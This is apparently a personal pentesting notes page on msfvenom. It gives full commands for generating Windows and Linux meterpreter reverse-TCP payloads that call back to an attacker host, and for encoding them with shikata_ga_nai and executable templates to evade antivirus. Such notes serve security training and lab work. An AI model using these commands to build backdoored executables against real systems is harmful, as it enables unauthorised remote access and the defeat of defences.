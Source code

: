 
[[metasploit]]
MSFvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015.

msfvenom is a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers.

We can use msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

### Usage
`msfvenom -list payloads`
`msfvenom -list encoders`
`msfvenom -list formats`

```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > /home/user/Documents/payloadx86.exe
```

```bash
msfvenom -a x86 -p linux/x86/meterpreter/reverse_tcp -f elf > /home/user/Downloads/payloadx86
```

In msfconsole you can `use multi/handler` and `set payload <path_to_payload>`  

### Encoding payloads

Given that this attack vector involve the transfer and storage of a malicious payload on the client's system ( disk) attackers need to be cognizant of AV detection.

Most end user AV solutions utilize signature based detection in order to identify malicious files or executables. 

We can evade older signature based AV solution by encoding our payloads.

Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.

```bash
msfvenom -p windows/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe > /home/user/Documents/file.exe
```

`-i ` iterations
`-x ` You can use a executable as a template ex: rar.exe
`-k ` Keep the functionality of the file (rar.exe)